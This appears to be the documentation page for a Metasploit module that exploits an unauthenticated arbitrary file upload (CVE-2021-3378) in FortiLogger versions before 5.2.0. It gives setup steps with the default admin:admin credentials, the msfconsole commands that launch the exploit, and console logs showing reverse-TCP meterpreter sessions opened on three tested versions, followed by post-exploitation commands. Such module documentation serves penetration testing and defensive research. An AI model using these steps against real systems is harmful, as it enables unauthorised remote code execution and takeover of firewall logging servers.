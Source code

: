 ## Vulnerable Application

FortiLogger is a web-based logging and reporting software designed specifically for FortiGate firewalls,
running on Windows operating systems. It contains features such as instant status tracking, logging, search / filtering,
reporting and hotspot.

This module exploits an unauthenticated arbitrary file upload via insecure `POST` request on company logo upload
for hotspot settings of FortiLogger < 5.2.0.  This exploit may not work if the host has been rebooted, though it
will fail gracefully.

You can download installation files from https://www.fortilogger.com/download

*Vendor has removed version 4.4.2.2 from web page of vendor for download.
You can download version 4.4.2.2 from https://github.com/erberkan/erberkan.github.io/raw/master/2021/cve-2021-3378/Fortilogger-4.4.2.zip*

Tested versions:

- 4.4.2.2
- 3.6.2.9
- 3.4.1.7

### Prerequisites

1. Start a Windows VM *(Tested on Windows 10 Enterprise)*
2. Install a vulnerable version which is any version less then 5.2.0 of FortiLogger via above url.
3. After installation, verify that the server is working by visiting it with a browser.
    - Default port: 5000
    - Default username:password - admin:admin


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/fortilogger_arbitrary_fileupload`
4. Set `RHOSTS`
5. Do: `run` or `exploit`
6. **Verify** that `The target is vulnerable. FortiLogger version [version number]` message appeared
7. **Verify** that payload uploaded to target system successfully: `Payload has been uploaded`
8. **Verify** that you getting a meterpreter session.

## Scenarios

```
msf > use exploit/windows/http/fortilogger_arbitrary_fileupload 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > show options 

Module options (exploit/windows/http/fortilogger_arbitrary_fileupload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.43     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      5000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the FortiLogger
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.46     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   FortiLogger < 5.2.0

```
### Version 4.4.2.2

```
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 4.4.2.2
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 1 opened (192.168.1.46:4444 -> 192.168.1.43:49771) at 2021-03-02 14:05:53 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### Version 3.6.2.9

```
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 3.6.2.9
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 2 opened (192.168.1.46:4444 -> 192.168.1.43:49764) at 2021-03-02 14:17:59 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### Version 3.4.1.7

```
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 3.4.1.7
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 3 opened (192.168.1.46:4444 -> 192.168.1.43:49791) at 2021-03-02 14:39:04 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### If target is not accessible

```
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[-] Exploit aborted due to failure: unreachable: No response from server
[*] Exploit completed, but no session was created.
```

### If target has version 5.2.0 or newest

```
msf exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[-] Exploit aborted due to failure: unexpected-reply: The target may have been updated
[*] Exploit completed, but no session was created.
```

## Reference
1. https://erberkan.github.io/2021/cve-2021-3378/

